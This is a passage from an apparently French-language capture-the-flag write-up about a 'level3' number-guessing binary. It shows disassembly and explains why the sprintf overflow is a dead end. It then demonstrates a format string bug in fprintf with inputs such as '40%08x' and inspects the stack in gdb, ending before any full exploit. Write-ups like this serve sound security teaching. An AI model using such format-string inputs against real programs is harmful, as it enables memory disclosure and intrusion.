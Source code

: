 ```nasm
0x080485e6      cmp     eax, dword [var_214h]
0x080485ec      jne     0x8048617
```

Mais à bien regarder on voit que la façon dont l'output est géré quand le chiffre est trop grand est différente de quand le chiffre est trop petit.

En effet, au lieu de faire directement le `fprintf` vers la sortie d'erreur, le programme ajoute un `sprintf` et la chaine générée est alors passée telle quelle à un `fprintf`.

La fonction `sprintf` n'ayant pas de protection contre les buffer overflow on pourrait penser qu'elle constitue l'objectif du level mais à bien regarder le buffer de destination `outputbuff` n'est pas une variable de la stack frame : il est rattaché à l'adresse `0x80cc200`, c'est une variable globale.

Effectivement on peut provoquer un overflow et on obtient un segfault mais le crash survient en plein milieu de la fonction `getenv` donc bien loin du code que l'on a sous les yeux.

En vérité il s'agit bien sûr d'une exploitation de chaine de format car on a le contrôle sur ce qui est passé à `fprintf` :

```bash
$ ./level3
############################
# Random number game - 1.0 #
############################
guess the number between 0 and 40, type exit to close
guess: %08x
Your guess %08x is to low
guess: 40%08x
Your guess 40ffd6c54c is to high
```

En passant `40` au début de la chaine on passe le `stroint`, on entre dans le cas du *trop grand* et on déclenche le bug.

Avec une vulnérabilité de format string on peut extraire et écrire des données comme expliqué ici : [Pwing echo : Exploitation d'une faille de chaîne de format](https://devloop.users.sourceforge.net/index.php?article102/pwing-echo-exploitation-d-une-faille-de-chaine-de-format).

## Faites vos jeux

Mais pour réaliser l'exploitation il faut une bonne connaissance de l'état de la stack. Ici j'ai placé un breakpoint sur l'adresse `0x080485af` (juste après le `fprintf` vulnérable) et en afichant 148 dwords à partir de `esp+32` je retrouve toutes les informations qui m'intéressent :

```
guess: 40AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Your guess 40AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA is to high

Breakpoint 1, 0x080485af in start_game ()
(gdb) x/148wx $esp+(8*4)
0xffffca00:     0x00000002      0x0000000d      0x00000028      0x41413034
0xffffca10:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffca20:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffca30:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffca40:     0x00414141      0x00000000      0x00000000      0x00000000
0xffffca50:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffca60:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffca70:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffca80:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffca90:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffcaa0:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffcab0:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffcac0:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffcad0:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffcae0:     0x00000000      0x00000000      0x00000000      0x00000000
```